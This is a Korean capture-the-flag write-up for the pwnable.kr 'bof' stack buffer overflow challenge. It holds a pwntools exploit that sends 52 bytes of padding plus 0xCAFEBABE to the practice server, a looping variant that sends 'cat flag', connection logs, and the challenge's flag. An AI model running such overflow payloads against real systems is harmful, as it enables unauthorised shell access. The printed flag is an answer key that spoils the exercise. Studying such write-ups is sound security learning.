


# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**!

ebp+arg_0(0x08)이 0xCAFEBABE면 쉘을 획득할 수 있다.



gets를 통해 버퍼의 시작 주소는 ebp+s(-0x2C)이다. 따라서 dummy를 채워야 하는 크기는 0x2C+SFP(ebp)+RET(ebp+4)=52byte이다. (32bit 파일이기 때문에)

다음과 같이 python 스크립트로 쉘을 획득할 수 있다.

```python
from pwn import *

r = remote("pwnable.kr", 9000)
payload = b"A"*52
payload += p32(0xCAFEBABE)

r.sendline(payload)
r.interactive()
하지만 sh: 1: Cannot fork와 같이 문제에 오류가 있어보인다. 따라서 flag는 획득하지 못했다.
```

하지만 DoS로 뚫었다.

```python
from pwn import *

for i in range(5):
    r = remote("pwnable.kr", 9000)
    payload = b"A"*52
    payload += p32(0xCAFEBABE)

    r.sendline(payload)
    r.sendline('cat flag')
    try: print(r.recvline())
    except: pass

[x] Opening connection to pwnable.kr on port 9000
[x] Opening connection to pwnable.kr on port 9000: Trying 128.61.240.205
[+] Opening connection to pwnable.kr on port 9000: Done
[x] Opening connection to pwnable.kr on port 9000
[x] Opening connection to pwnable.kr on port 9000: Trying 128.61.240.205
[+] Opening connection to pwnable.kr on port 9000: Done
b'sh: 1: Cannot fork\n'
[x] Opening connection to pwnable.kr on port 9000
[x] Opening connection to pwnable.kr on port 9000: Trying 128.61.240.205
[+] Opening connection to pwnable.kr on port 9000: Done
[x] Opening connection to pwnable.kr on port 9000
[x] Opening connection to pwnable.kr on port 9000: Trying 128.61.240.205
[+] Opening connection to pwnable.kr on port 9000: Done
b'daddy, I just pwned a buFFer :)\n'
[x] Opening connection to pwnable.kr on port 9000
[x] Opening connection to pwnable.kr on port 9000: Trying 128.61.240.205
[+] Opening connection to pwnable.kr on port 9000: Done
b'*** stack smashing detected ***: /home/bof/bof terminated\n'
[*] Closed connection to pwnable.kr port 9000
[*] Closed connection to pwnable.kr port 9000
[*] Closed connection to pwnable.kr port 9000
[*] Closed connection to pwnable.kr port 9000
[*] Closed connection to pwnable.kr port 9000
```


# **FLAG**

**daddy, I just pwned a buFFer :)**